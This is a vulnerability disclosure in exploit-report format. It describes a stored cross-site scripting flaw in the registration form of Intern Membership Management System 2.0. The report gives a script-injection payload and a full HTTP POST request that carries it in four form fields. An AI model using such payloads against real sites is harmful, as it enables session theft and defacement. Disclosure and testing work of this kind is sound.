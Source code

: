 # Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Exploit Title:** Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Intern Membership Management System 2.0 allows Stored Cross-site Scripting via parameters 'userName', 'firstName', 'lastName', and 'userEmail' in "/intern/user_registration/". Intern Membership Management System is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Use this payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`
+ Fill 'userName','firstName', 'lastName', '' and 'userEmail' parameters on the form and click 'Register' button.
+ The Stored XSS will be triggered.
+ Alerts will pop-up permanently.
+ Example request for 'userName', 'firstName', 'lastName', and 'userEmail' parameters:
```
POST /intern/user_registration/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://localhost
Connection: close
Referer: http://localhost/intern/user_registration/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

userName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&firstName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&lastName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&password=&confirm_password=&userEmail=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&gender=Male&terms=on&register-user=Register
```

+ Example payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`

![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8c711e71-94df-48eb-98af-9b16fbbecd31)
<br>
<br>
![2_xss](https://github.com/h4md153v63n/CVEs/assets/5091265/1a45f2d0-4bfa-4a20-9b7e-59f8d6aba24d)
<br>
<br>
![2_xss-2](https://github.com/h4md153v63n/CVEs/assets/5091265/337eeddd-d66f-4dd9-8887-923637a2b680)
